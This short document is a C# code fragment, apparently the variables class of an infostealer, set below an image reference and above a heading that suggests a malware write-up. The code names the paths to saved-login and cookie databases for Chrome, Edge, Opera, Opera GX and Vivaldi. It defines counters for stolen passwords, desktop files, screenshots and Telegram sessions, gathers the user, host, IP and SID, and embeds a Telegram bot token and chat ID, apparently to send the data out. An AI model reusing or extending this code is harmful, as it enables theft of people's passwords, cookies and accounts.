```csharp
        public static string temp = Path.GetTempPath();
        public static string desktop = Environment.GetFolderPath(Environment.SpecialFolder.DesktopDirectory);
        public static string LoginDataPathChrome = localappdata + "\\Google\\Chrome\\User Data\\Default\\Login Data";
        public static string CookiePathChrome = localappdata + "\\Google\\Chrome\\User Data\\Default\\Network\\Cookies";
        public static string LoginDataPathEdge = localappdata + "\\Microsoft\\Edge\\User Data\\Default\\Login Data";
        public static string LoginDataPathOperaGX = roamingappdata + "\\Opera Software\\Opera GX Stable\\Login Data";
        public static string LoginDataPathOpera = roamingappdata + "\\Opera Software\\Opera Stable\\Default\\Login data";
        public static string LoginDataPathVivaldi = localappdata + "\\Vivaldi\\User Data\\Default\\Login Data";
        public static string isChromeFound;
        public static string isOperaGXFound;
        public static string isOperaFound;
        public static string isEdgeFound;
        public static string isVivaldiFound;
        public static int allFoundPasswords;
        public static int foundChromePasswords;
        public static int foundOperaGXPasswords;
        public static int foundOperaPasswords;
        public static int foundEdgePasswords;
        public static int foundVivaldiPasswords;
        public static int foundFilesFromDesktop;
        public static string isScreenshotSuccess;
        public static string telegramSessionFound;
        public static string isZipCompressionSuccess;
        public static string username = WindowsIdentity.GetCurrent().Name;
        public static string host = Dns.GetHostName();
        public static IPAddress IP = Dns.GetHostByName(Variables.host).AddressList[0];
        public static string SID = WindowsIdentity.GetCurrent().User.Value;
        public static string Token = "8013735771:AAE_UrTgQsAmiAsXeDN6mehD_fo3vEg-kCM";
        public static string ID = "7613862165";
        public static string workdir = temp + username;
    }
}
```

# High-Level Execution Flow Chart
